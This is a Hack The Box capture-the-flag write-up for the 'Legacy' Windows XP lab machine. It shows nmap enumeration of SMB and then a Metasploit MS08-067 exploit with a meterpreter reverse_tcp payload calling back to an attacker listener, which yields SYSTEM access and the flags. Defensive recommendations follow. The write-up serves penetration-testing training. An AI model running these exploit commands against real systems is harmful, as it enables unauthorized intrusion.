

# HTB - Legacy

**IP Address:** `10.10.10.4`  
**OS:** Windows XP  
**Difficulty:** Easy  
**Tags:** #SMB, #MS08-067, #Metasploit, #Windows-Exploitation

---
## Synopsis

Legacy is an easy Windows machine running **Windows XP**, an outdated and unsupported operating system.  
The exploitation path takes advantage of the well-known **MS08-067** vulnerability in the SMB service, which allows remote code execution and direct system compromise.

---
## Skills Required

- Basic Windows service enumeration  
- Familiarity with Metasploit exploitation  

## Skills Learned

- Identifying vulnerable SMB versions  
- Exploiting the **MS08-067** RCE vulnerability with Metasploit  
- Gaining SYSTEM-level access on outdated Windows machines  

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Verify if the host is alive using ICMP:

```bash
ping -c 1 10.10.10.4
```


The host responds, confirming it is reachable.

---
### 1.2 Port Scanning

Scan all TCP ports to identify exposed services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.4 -oG allPorts
```

- `-p-`: Scan all 65,535 ports  
- `--open`: Show only open ports  
- `-sS`: SYN scan  
- `--min-rate 5000`: Increase speed  
- `-Pn`: Skip host discovery (already confirmed alive)  
- `-oG`: Output in grepable format


Extract open ports:

```bash
extractPorts allPorts
```


---
### 1.3 Targeted Scan

Run a deeper scan with version detection and default scripts:

```bash
nmap -p135,139,445 -sC -sV 10.10.10.4 -oN targeted
```

- `-sC`: Run default NSE scripts  
- `-sV`: Detect service versions  
- `-oN`: Output in human-readable format  

Let's check the result:

```bash
cat targeted -l java
```


**Findings:**

| Port | Service | Description                          |
|------|---------|--------------------------------------|
| 135  | MS RPC  | Microsoft RPC endpoint mapper        |
| 139  | NetBIOS | Legacy SMB session service           |
| 445  | SMB     | Microsoft Windows SMB file sharing   |

- The target OS is identified as **Windows XP**  
- SMB service is accessible, even for **guest** users  

---
## 2. Exploitation

Searching for known vulnerabilities affecting Windows XP SMB, we find **MS08-067**:  

🔗 [Microsoft Security Bulletin MS08-067](https://support.microsoft.com/en-us/topic/ms08-067-vulnerability-in-server-service-could-allow-remote-code-execution-ac7878fc-be69-7143-472d-2507a179cd15)  

This vulnerability allows **Remote Code Execution** via the SMB service.  
We exploit it using Metasploit:

```bash
msfconsole
search ms08_067
```



Configure and run the exploit:

``` bash
use exploit/windows/smb/ms08_067_netapi
set rhosts 10.10.10.4
set lhost 10.10.14.8
set lport 4444
set payload windows/meterpreter/reverse_tcp
exploit
```


✅ We obtain a shell with SYSTEM privileges.

---
## 3. Post-Exploitation

### 3.1 User Flag

The user flag is saved in `john` user inside the `Documents and Settings`directory:

```bash
type C:\Documents and Settings\john\Desktop\user.txt
```


✅ **User flag obtained**

---
### 3.2 Root Flag

We are root, so we can go to `Administrator` directory for the root flag:

```bash
type C:\Documents and Settings\Administrator\Desktop\root.txt
```


✅ **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **Port Scanning** → Detected SMB services on Windows XP  
2. **Vulnerability Identification** → MS08-067 SMB exploit available  
3. **Metasploit Exploitation** → Remote code execution as SYSTEM  
4. **Post-Exploitation** → Retrieved user and root flags  

---
## Defensive Recommendations

- **Decommission unsupported OS**: Windows XP is end-of-life and must be removed from production.  
- **Patch SMB vulnerabilities**: Apply security updates for SMB services (MS08-067).  
- **Network Segmentation**: Isolate legacy systems from the internet or sensitive networks.  
- **Monitor SMB traffic** for anomalous activity.
